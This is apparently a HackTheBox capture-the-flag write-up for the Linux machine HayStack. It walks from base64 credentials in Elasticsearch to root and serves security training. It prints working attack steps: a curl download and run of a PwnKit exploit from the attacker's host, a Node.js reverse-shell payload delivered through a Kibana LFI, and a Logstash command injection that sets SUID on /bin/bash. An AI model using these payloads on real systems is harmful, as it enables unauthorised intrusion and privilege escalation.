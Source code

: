 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: HayStack
- Description: Haystack is an Easy difficulty Linux box running the ELK stack ( Elasticsearch, Logstash and Kibana). The elasticsearch DB is found to contain many entries, among which are base64 encoded credentials, which can be used for SSH. The kibana server running on localhost is found vulnerable to file inclusion, leading to code execution. The kibana user has access to the Logstash configuration which is set to execute files as root based on a certain filter.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods: 
|   Supported Methods: HEAD DELETE GET OPTIONS
|_  Potentially risky methods: DELETE
|_http-favicon: Unknown favicon MD5: 6177BFB75B498E0BB356223ED76FFE43
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).

```

Alright new day new box, today we're doing HayStack.

To start I look at port 80 and see that there is one file `index.html` and it has an image `needle.jpg`.

Downloading the image and running strings on it we can see that it has a base64 string, so we decode it:

![](assets/images/2024-01-23-HTB-HayStack-writeup-image-1.png)

We got a hint for the term "clave".

Next I will acess the elastic search instance:

![](assets/images/2024-01-23-HTB-HayStack-writeup-image-2.png)

I see that there are bank and quotes, let's dump the info and check for clave:

![](assets/images/2024-01-23-HTB-HayStack-writeup-image-3.png)

![](assets/images/2024-01-23-HTB-HayStack-writeup-image-4.png)

![](assets/images/2024-01-23-HTB-HayStack-writeup-image-5.png)

I decode the texts and login!
## Privilege Escalation

Alright so I did it the unintended way to start, so I will go ahead and show you how I did it, then do it the intended way:

```bash
[security@haystack tmp]$ curl http://10.10.14.14/PwnKit -o pk
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 18040  100 18040    0     0   112k      0 --:--:-- --:--:-- --:--:--  113k
[security@haystack tmp]$ chmod +x /pk
chmod: cannot access ‘/pk’: No such file or directory
[security@haystack tmp]$ chmod +x ./pk
[security@haystack tmp]$ ./pk
[root@haystack tmp]# cd /root
[root@haystack ~]# ls
anaconda-ks.cfg  root.txt
[root@haystack ~]# cat root.txt
c6f665f9e5c3afbbe10d99e222b90046
[root@haystack ~]#
```

I used pwnkit..

Alright intended way!
```bash
[security@haystack opt]$ ls -la
total 4
drwxr-xr-x.  3 root   root     20 Jun 18  2019 .
drwxr-xr-x. 17 root   root   4096 Apr  1  2022 ..
drwxr-x---.  2 kibana kibana    6 Jun 20  2019 kibana
[security@haystack opt]$ netstat -utnlp
(No info could be read for "-p": geteuid()=1000 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -       
tcp        0      0 0.0.0.0:9200            0.0.0.0:*               LISTEN      -       
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -       
tcp        0      0 127.0.0.1:5601          0.0.0.0:*               LISTEN      -       
tcp6       0      0 127.0.0.1:9000          :::*                    LISTEN      -       
tcp6       0      0 :::80                   :::*                    LISTEN      -       
tcp6       0      0 127.0.0.1:9300          :::*                    LISTEN      -       
tcp6       0      0 :::22                   :::*                    LISTEN      -       
tcp6       0      0 127.0.0.1:9600          :::*                    LISTEN      -       
udp        0      0 127.0.0.1:323           0.0.0.0:*                           -       
udp6       0      0 ::1:323
```

Alright we can see that kibana is running, let's portforward everything since its running on localhost:

I'll relogin with a dynamic port forward:
```bash
HTB ssh -D 1080 security@10.10.10.115
security@10.10.10.115's password: 
Last login: Tue Jan 23 10:03:53 2024 from 10.10.14.14
[security@haystack ~]$ 
```

I ofcourse matched that in my proxychains conf.

Now I setup proxychains on my foxy proxy and I can access the kibana instance: 

![](assets/images/2024-01-23-HTB-HayStack-writeup-image-6.png)

this shows me the version is `6.4.2`

This version has an LFI on it:

![](assets/images/2024-01-23-HTB-HayStack-writeup-image-7.png)
This LFI can be paired with a file upload (we have a shell already) to get a shell. Let's do it:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "172.18.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

I'll use that payload as my shell.

I upload it to `/dev/shm` using my rev shell and acess the url below:

![](assets/images/2024-01-23-HTB-HayStack-writeup-image-8.png)

this executes the payload and gets me a revshell:

![](assets/images/2024-01-23-HTB-HayStack-writeup-image-9.png)

Now I am the kibana user.

Alright we can see we have access to logstash for privilege escalation. We can see the following config:

![](assets/images/2024-01-23-HTB-HayStack-writeup-image-10.png)

This means that the we need to insert a file in /opt/kibana that starts with logstash_ and that in the file, it s tarts with `Ejecutar comando:` then we can put any command after and it should execute it as root!

```bash
bash-4.2$ cat /opt/kibana/logstash_test.txt 
Ejecutar comando: chmod +s /bin/bash
bash-4.2$ ls -la /bin/bash
-rwsr-sr-x. 1 root root 964608 oct 30  2018 /bin/bash
bash-4.2$ bash -p
bash-4.2# whoami
root
```

best,
gerbsec